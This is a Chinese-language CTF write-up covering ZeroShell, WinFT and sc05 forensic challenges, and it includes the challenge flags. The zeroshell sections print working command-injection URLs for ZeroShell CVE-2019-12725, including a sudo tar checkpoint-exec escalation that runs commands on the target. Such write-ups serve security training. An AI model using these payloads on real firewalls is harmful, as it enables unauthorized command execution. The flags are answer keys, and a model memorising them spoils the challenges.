# 第十八届信息安全大赛 && 第二届长城杯 - zeroshell1~5，WinFT_1~2，sc05_1-先知社区

> **来源**: https://xz.aliyun.com/news/16196  
> **文章ID**: 16196

---

### zeroshell\_1

1、访问数据包，找到如下流量，可知exec命令执行



追踪流得到



Base64解码可得



### zeroshell\_2

通过网上查找，发现历史漏洞：ZeroShell防火墙存在远程命令执行漏洞(CVE-2019-12725)  
进行利用，使用find命令直接查找flag

```
http://61.139.2.100/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type=%27%0Afind%20/%20-name%20%22flag%22%0A%27

/DB/_DB.001/flag  c6045425-6e6e-41d0-be09-95682a4f65c4
/Database/flag  c6045425-6e6e-41d0-be09-95682a4f65c4
/DB/_DB.001/flag  
/Database/flag
```



```
cat /DB/_DB.001/flag
```



### zeroshell\_3

使用`netstat -n -p`命令查找外联地址

```
http://61.139.2.100/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type=%27%0Anetstat -n -p%0A%27

flag{202.115.89.103}
```



### zeroshell\_4

通过模糊语法，查找url地址：/cgi-bin/kerbynet

```
http.request.uri matches "/cgi-bin/kerbynet"
```

发现，攻击者的payload

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='ps%20-ef'%0A'
```



查找进程

```
http://61.139.2.100/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type=%27%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec=%27netstat -anp%27%0A%27
```



发现进程号是

```
10449
```

查找进程下运行的文件



查找进程10449的exe

```
http://61.139.2.100/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type=%27%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec=%27ls -al /proc/10449/exe%27%0A%27
```



发现/tmp/.nginx

```
flag{.nginx}
```

### zeroshell\_5

下载/tmp/.nginx文件

```
http://61.139.2.100/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type=%27%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec=%27cat%20/tmp/.nginx%27%0A%27
```

使用xxd进行转换



然后直接搜索之前得到的ip:202.115.89.103，得到flag

```
flag{223344qweasdzxcF}
```


### WinFT\_1

和zeroshell\_3一样，使用`netstat -n`命令查找外联地址，得到ip地址

```
netstat -n
192.168.116.130:443
```



查找host文件，得到

```
192.168.116.130 miscsecure.com
192.168.116.130 miscflvol.com
```



flag为

```
flag{miscsecure.com:192.168.116.130:443}
```

### WinFT\_2



flag{AES\_encryption\_algorithm\_is\_an\_excellent\_encryption\_algorithm}

### sc05\_1

查找 firewall.xlsx文件直接搜索134.6.4.12

```
2024/11/09_16:23:57

flag{8C43F3A43B366FAD535B747F26D6C6AA}
```



提交发现不对，看到有三个表，对比一下

```
2024/11/09_16:22:42

flag{01DF5BC2388E287D4CC8F11EA4D31929}
```


